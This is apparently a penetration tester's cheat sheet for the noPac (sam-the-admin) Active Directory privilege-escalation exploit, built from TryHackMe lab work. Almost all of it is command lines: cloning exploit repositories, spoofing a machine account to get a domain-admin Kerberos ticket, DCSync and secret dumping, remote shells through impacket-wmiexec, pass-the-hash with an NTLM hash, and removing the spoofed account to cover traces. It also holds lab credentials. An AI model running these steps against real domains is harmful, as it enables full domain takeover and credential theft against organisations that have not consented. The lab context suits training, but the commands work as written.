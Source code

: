 # attacking machines with noPac exploit #
# logic
        spoof a workstation account to request a ticket for a domain admin with no pack
                * pack is the part of a ticket that contains user information

        (Pac = "Privileged Attribute Certificate")

        % if vuln able to impersonate a admin a DCSYNC the target

% only need a set of valid domain creds to sploit

-----------------------------------------------------------------------------------
# setup

% exploit code
        git clone https://github.com/WazeHell/sam-the-admin.git

{%%} performing the noPac attack (THM: RazorBlack)

        sudo python3 sam_the_admin.py -dc-ip <rhost-ip> <domain-name>/<username>:<password>
        sudo python3 sam_the_admin.py -dc-ip 10.10.152.25 raz0rblack.thm/twilliams:roastpotatoes

* make sure you include tne netbios/hostname of the box for the highest priv user
        proxychains python3 sam_the_admin.py -dc-ip 10.200.151.30 -dc-host DC-SRV01 holo.live/watamet:Nothingtoworry!

% get a shell with the impacket-smb command or a other like wmiexec, psexec, etc

        KRB5CCNAME='Administrator.ccache' /usr/bin/impacket-wmiexec -k -no-pass raz0rblack.thm/twilliams:roastpotatoes@10.10.152.25

* needs to be modified because of the extra domain

        KRB5CCNAME='Administrator.ccache' /usr/bin/impacket-wmiexec -k -no-pass raz0rblack.thm/twilliams:roastpotatoes@10.10.152.25

        KRB5CCNAME='Administrator.ccache' /usr/bin/impacket-wmiexec -k -no-pass -dc-ip 10.10.152.25 raz0rblack.thm/twilliams:roastpotatoes@haven-dc.raz0rblack.thm
        KRB5CCNAME='Administrator.ccache' /usr/bin/impacket-wmiexec -k -no-pass raz0rblack.thm/twilliams:roastpotatoes@haven-dc.raz0rblack.thm

{what worked for me after adding the netbios hostname and domain name to the /etc/hosts file}

        KRB5CCNAME='Administrator.ccache' /usr/bin/impacket-wmiexec -dc-ip 10.10.21.231 -k -no-pass raz0rblack.thm/Administrator@haven-dc.raz0rblack.thm

=-=-=-=-=-=-=-=------------=-=-=-=-=-=-=-=-=-=
% if it fails

1. attempt a time sync
        sudo apt install ntpdate -y

        sudo ntpdate <rhost-ip>
        sudo ntpdate 10.10.152.25

---------------------------------------------------------------------------------------------
# clean up after the fact (just delete the user that was created to impersonate administrator
% account creaated
        SAMTHEADMIN-39$:CxP)O@kQyHqW

% how to figure out that account is still there
        1. rid-cycling

                crackmapexec smb 10.10.85.161 -u twilliams -p roastpotatoes --rid-brute

% how to remove account //{!}\\ by using impacket (addcomputer.py) to remove the machine account

        impacket-addcomputer -dc-ip 10.10.104.115 -computer-name 'SAMTHEADMIN-55$' -dc-host HAVEN-DC -domain-netbios raz0rblack.thm 'raz0rblack.thm/oreo:P@ssw0rd' -delete

{/!\} check to make sure the ticket still works after the account SAMTHEADMIN account has been removed
        KRB5CCNAME='Administrator.ccache' /usr/bin/impacket-wmiexec -dc-ip 10.10.104.115 -k -no-pass raz0rblack.thm/Administrator@haven-dc.raz0rblack.thm

        * yes still works pog

---------------------------------------------------------------------------------------------------------------------------------------------------------------------
# 0r just use Alh4zr3d version which auto deletes it
        git clone https://github.com/Alh4zr3d/sam-the-admin.git

        proxychains python3 sam_the_admin.py -dc-ip 10.200.151.30 holo.live/watamet:Nothingtoworry!
        proxychains python3 sam_the_admin.py -dc-ip 10.200.151.30 -dc-host DC-SRV01 holo.live/watamet:Nothingtoworry!

        export KRB5CCNAME='a-fubukis.ccache'
        proxychains impacket-wmiexec -dc-ip 10.200.151.30 -k -no-pass holo.live/a-fubukis@10.200.151.30

{!} problems with same the admin
        * some networks return this authentication error
        [-] Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)

                * since you can't select what user to impersonate
                        there is a change that the ticket you get is for a user who may not be able to authenticate

---------------------------\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\================================-----------------------
# or a more automated version of noPac from this repo ;'..;' https://github.com/Ridter/noPac.git
        git clone https://github.com/Ridter/noPac.git

% how use it (defaults)
{auto shell}
        python noPac.py cgdomain.com/sanfeng:'1qaz@WSX' -dc-ip 10.211.55.203 -dc-host lab2012 -shell --impersonate administrator

        proxychains python3 noPac.py -use-ldap holo.live/watamet:Nothingtoworry! -dc-ip 10.200.151.30 -dc-host DC-SRV01 -shell --impersonate administrator
        proxychains python3 noPac.py holo.live/watamet:Nothingtoworry! -dc-ip 10.200.151.30 -dc-host DC-SRV01 -shell --impersonate administrator

% example from the holo network noPac attempt
        python3 noPac.py -use-ldap -dc-ip <IP> <DOMAIN>/<USER>:<PASS> --impersonate administrator -dump

1. domain into
        [*] Windows 10.0 Build 17763 x64 (name:DC-SRV01) (domain:holo.live) (signing:False) (SMBv1:False)
        watamet:Nothingtoworry!

2. perform the attack over socks proxy
        proxychians python3 noPac.py -use-ldap -dc-ip <IP> <DOMAIN>/<USER>:<PASS> --impersonate administrator -dump
        proxychains python3 noPac.py -use-ldap -dc-ip 10.200.151.30 holo.live/watamet:Nothingtoworry! --impersonate administrator -dump

        -use-ldap ("used when the server is running it's service with ssl")

3. psexec in
        proxychains impacket-wmiexec holo.live/Administrator@10.200.151.30 -hashes ae19656e1067231cb5e3c5dcea320bba:ae19656e1067231cb5e3c5dcea320bba

0r
        use the ticket it creates with a method above
